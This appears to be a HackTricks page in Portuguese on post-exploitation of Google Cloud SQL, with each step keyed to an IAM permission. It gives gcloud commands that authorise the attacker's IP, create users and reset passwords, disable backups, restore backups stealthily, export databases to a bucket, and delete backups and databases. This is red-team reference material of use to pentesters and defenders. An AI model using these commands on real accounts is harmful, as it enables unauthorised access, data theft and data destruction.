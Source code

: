 # GCP - Cloud SQL Pós Exploração

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## Cloud SQL

Para mais informações sobre Cloud SQL, confira:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para se conectar aos bancos de dados, você **só precisa de acesso à porta do banco de dados** e saber o **nome de usuário** e **senha**, não há requisitos de IAM. Portanto, uma maneira fácil de obter acesso, supondo que o banco de dados tenha um endereço IP público, é atualizar as redes permitidas e **permitir que seu próprio endereço IP acesse-o**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Também é possível usar **`--no-backup`** para **interromper os backups** do banco de dados.

Como esses são os requisitos, não tenho certeza do que são as permissões **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se você souber, envie um PR!

### `cloudsql.users.list`

Obtenha uma **lista de todos os usuários** do banco de dados:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Esta permissão permite **criar um novo usuário dentro** do banco de dados:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Esta permissão permite **atualizar o usuário dentro** do banco de dados. Por exemplo, você poderia mudar sua senha:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups podem conter **informações sensíveis antigas**, então é interessante verificá-las.\
**Restaurar um backup** dentro de um banco de dados:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para fazê-lo de uma maneira mais furtiva, é recomendável criar uma nova instância SQL e recuperar os dados lá em vez de nas bases de dados atualmente em execução.

### `cloudsql.backupRuns.delete`

Esta permissão permite excluir backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporte um banco de dados** para um Bucket do Cloud Storage para que você possa acessá-lo a partir daí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar um banco de dados** (sobrescrever) de um Bucket do Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Excluir um banco de dados da instância do db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
